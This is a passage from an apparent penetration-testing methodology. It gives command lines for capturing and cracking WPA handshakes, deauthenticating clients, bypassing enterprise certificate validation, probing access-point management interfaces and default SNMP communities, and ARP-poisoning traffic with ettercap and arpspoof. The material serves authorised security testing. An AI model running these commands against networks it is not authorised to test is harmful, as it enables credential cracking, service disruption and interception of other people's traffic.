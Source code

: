 ### 4.2 Wireless Authentication Testing

#### WPA/WPA2 Security Testing
```bash
# WPA handshake capture
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon  # Deauth attack

# Dictionary attack against WPA
aircrack-ng -w wordlist.txt handshake.cap

# Hashcat WPA cracking
hashcat -m 2500 handshake.hccapx wordlist.txt
```

#### Enterprise Wireless Testing
```bash
# EAP method enumeration
eap_hammer.py --interface wlan0 --essid "Enterprise-SSID"

# Certificate validation bypass
wpa_supplicant -c bypass_cert_config.conf -i wlan0
```

### 4.3 Wireless Infrastructure Testing

#### Access Point Configuration Assessment
```bash
# Management interface discovery
nmap -sS -p 80,443,8080,8443 wireless_ap_ip
curl -k https://wireless_ap_ip/  # Check for web management

# SNMP testing on wireless equipment
snmpwalk -v2c -c public wireless_ap_ip
snmpwalk -v2c -c private wireless_ap_ip
```

## 5. Network-Based Attack Testing

### 5.1 Man-in-the-Middle (MITM) Attacks

#### ARP Spoofing/Poisoning
```bash
# ARP poisoning with ettercap
ettercap -T -M arp:remote /target_ip// /gateway_ip//
ettercap -T -M arp:remote /192.168.1.100// /192.168.1.1//

# ARP poisoning with arpspoof
arpspoof -i eth0 -t target_ip gateway_ip
arpspoof -i eth0 -t gateway_ip target_ip

# Enable IP forwarding for transparent proxy
echo 1 > /proc/sys/net/ipv4/ip_forward
```

